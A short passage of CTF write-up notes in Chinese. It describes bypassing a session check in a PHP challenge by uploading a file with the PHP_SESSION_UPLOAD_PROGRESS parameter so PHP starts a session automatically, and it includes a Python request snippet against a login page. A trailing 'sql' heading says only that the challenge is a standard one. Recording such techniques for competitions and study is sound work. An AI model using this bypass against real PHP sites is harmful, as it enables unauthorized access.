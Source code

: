 - # 绕过session检测
	- `templates`文件夹中的所有文件都会检测session是否被开启。
	- 而只有index.php中会主动使用`session_start()`开启session
	- 我们可以通过上传文件，并附带POST参数`PHP_SESSION_UPLOAD_PROGRESS`来让PHP自动开启session
		- ```python
		  r = base_post(f"{url}/templates/login.php", params = {
		      "p": "login",
		      "username": "bbbbbbb",
		      "password": "b"
		  }, data = {
		      "PHP_SESSION_UPLOAD_PROGRESS": "123456789"
		  }, files = {
		      "file": ("a", "a")
		  })
		  print(r.text)
		  ```
- # sql
	- 模板题